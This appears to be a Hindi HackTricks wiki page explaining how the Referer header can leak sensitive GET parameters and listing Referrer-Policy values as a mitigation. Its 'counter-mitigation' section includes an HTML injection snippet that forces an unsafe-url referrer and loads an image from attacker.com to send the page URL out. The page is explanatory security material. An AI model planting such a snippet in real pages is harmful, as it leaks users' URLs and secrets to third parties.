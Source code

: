 {% hint style="success" %}
सीखें और प्रैक्टिस करें AWS हैकिंग: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और प्रैक्टिस करें GCP हैकिंग: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स** और [**हैकट्रिक्स क्लाउड**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PRs सबमिट करके।

</details>
{% endhint %}

# रेफरर हेडर्स और नीति

रेफरर वह हेडर है जिसका उपयोग ब्राउज़र्स द्वारा किया जाता है ताकि पहले दौरे गए पृष्ठ का पता लगाया जा सके।

## संवेदनशील जानकारी लीक हो गई

यदि किसी वेब पृष्ठ के अंदर किसी GET अनुरोध पैरामीटर पर कोई संवेदनशील जानकारी होती है, यदि पृष्ठ में बाहरी स्रोतों के लिंक होते हैं या एक हमलावर को यह सुझाने या बनाने में सक्षम होता है (सामाजिक इंजीनियरिंग) कि उपयोगकर्ता एक हमलावर द्वारा नियंत्रित URL पर जाएं। तो वह संवेदनशील जानकारी को नवीनतम GET अनुरोध के अंदर निकाल सकता है।

## संशोधन

आप ब्राउज़र को एक **रेफरर-नीति** का पालन करने के लिए कर सकते हैं जो संवेदनशील जानकारी को अन्य वेब एप्लिकेशनों को भेजने से **बचा** सकता है।
```
Referrer-Policy: no-referrer
Referrer-Policy: no-referrer-when-downgrade
Referrer-Policy: origin
Referrer-Policy: origin-when-cross-origin
Referrer-Policy: same-origin
Referrer-Policy: strict-origin
Referrer-Policy: strict-origin-when-cross-origin
Referrer-Policy: unsafe-url
```
## काउंटर-मिटिगेशन

आप एक HTML मेटा टैग का उपयोग करके इस नियम को नष्ट कर सकते हैं (हमलावर को HTML इन्जेक्शन का शिकार होना चाहिए):
```markup
<meta name="referrer" content="unsafe-url">
<img src="https://attacker.com">
```
## रक्षा

कभी भी URL में GET पैरामीटर या पथ में कोई भी संवेदनशील डेटा न डालें।
